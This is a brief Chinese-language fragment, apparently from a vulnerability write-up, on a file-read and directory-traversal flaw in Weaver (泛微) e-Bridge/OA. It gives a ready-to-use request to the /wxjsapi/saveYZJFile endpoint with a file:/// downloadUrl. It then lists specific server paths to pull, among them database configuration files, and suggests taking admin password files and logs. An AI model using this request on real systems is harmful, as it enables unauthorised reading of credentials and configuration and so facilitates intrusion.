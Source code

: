 输入文件路径->读取文件内容,我们读了一下代码后发现这还能读取文件目录。
参数不填写绝对路径写进文本内容就是当前的目录,产生了一个新的漏洞 “目录遍历”
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D:/&fileExt=txt

目录遍历+文件读取,我们能做的事情就很多了,比如读取管理员在桌面留下的密码文件、数据库配置文件、nginx代理配置、访问日志、D盘迅雷下载。
d://ebridge//tomcat//webapps//ROOT//WEB-INF//classes//init.properties
d:/OA/tomcat8/webapps/OAMS/WEB-INF/classes/dbconfig.properties 泛微OA数据库
